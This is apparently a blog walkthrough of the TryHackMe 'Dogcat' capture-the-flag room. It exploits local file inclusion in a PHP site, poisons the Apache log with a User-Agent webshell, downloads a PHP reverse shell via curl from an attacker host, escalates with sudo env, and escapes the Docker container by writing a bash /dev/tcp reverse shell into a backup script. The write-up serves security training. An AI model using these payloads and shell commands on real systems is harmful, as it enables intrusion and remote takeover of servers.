 ```yaml
---
title: 'Dogcat'
description: "I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container."
date: 2024-05-04T21:18:03+02:00
tags: 
    - "tryhackme"
    - "medium"
draft: false
external_url: "https://tryhackme.com/r/room/dogcat"
---
```


## Questions
1. What is flag 1?
2. What is flag 2?
3. What is flag 3?
4. What is flag 4?

Simple enough...

## Reconnaissance
Looking at the request headers I can see `X-Powered-By: PHP/7.4.3` meaning that it appears to be running PHP.
When looking around on the website I see `http://trgt/?view=dog/` in the URL this means that the application is probably vulnerable to [Local File Inclusion](https://owasp.org/www-project-top-25-parameters/#top-25-local-file-inclusion-lfi-parameters).

## Exploitation

### Gettings the Source Code
We can go to `http://trgt/?view=php://filter/read=convert.base64-encode/resource=dog/../index` to get a base64 encoded version of the index.php. (the ".php" gets added by the code, as shown below)

```php
function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
}
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
if(isset($_GET['view'])) {
    if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
        echo 'Here you go!';
        include $_GET['view'] . $ext;
    } else {
        echo 'Sorry, only dogs or cats are allowed.';
    }
}
```

It automatically appends ".php" if `&ext` is not specified. To work around this we specify it but leave it empty.

### Getting the Apache Logs

Heading towards `http://trgt/?view=./dog/../../../../var/log/apache2/access.log&ext` gives us the Apache access logs.
This can be used to execute our own commands on the server.

## Foothold
By changing our User-Agent to `<?php system($_GET['cmd']); ?>` and reloading the page we will inject that bit of PHP code in to the website. I use [User Agent Switcher and Manager](https://add0n.com/useragent-switcher.html) but there are a lot of ways to do this.

We can reset the USer-Agent back to normal after reloading the page.

If we now go to `http://trgt/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=whoami` we can see that it responded with "www-data".

### Uploading a Shell
I saved [pentestmonky](https://github.com/pentestmonkey/)'s [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) as `shell.php` in order to download it from the target we need to start a little webserver.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Going to `http://trgt/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=curl http://<atckr>:8000/shell.php -o shell.php`
Will result in the file downloaded from the webserver we've started and saved as `shell.php` in the root of the target webserver.

We listen with `$ nc -nvlp 9001` and go to `http://trgt/shell.php`. You should see a connection come in.
```nc
$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on trgt 38032
Linux e519df1bd305 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 19:05:55 up 28 min,  0 users,  load average: 0.00, 0.04, 0.41
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ _
```

And we're in!

## Finding the Flags
1. Running `$ pwd` we can see that we're in the `/` directory, heading towards `/var/www/html/` we find our first flag.
2. I started to travel back towards `/` and found the second flag in `/var/www/`

I couldn't directly find any other flag.

### Privilege Escalation
```sh
$ sudo -l
Matching Defaults entries for www-data on e519df1bd305:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on e519df1bd305:
    (root) NOPASSWD: /usr/bin/env
```
Looking at the hostname `e519df1bd305` I can believe that I'm in a docker container, I'll keep that in mind.
A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/env/) and we quickly have a root shell.

3. Heading towards `/root/` we find our third flag.

The fourth flag was tricky to find. But in the `/opt/` directory there's a folder called "backups" with some scripts in it.

Placing a reverse shell in `backup.sh` gives us a shell as root on the host, escaping the container.
```sh
$ echo "#!/bin/bash" > /opt/backups/backup.sh
$ echo "/bin/bash -c 'bash -i >& /dev/tcp/<atckr>/9002 0>&1'" >> /opt/backups/backup.sh
```

4. A simple `ls` reveals the fourth and final flag.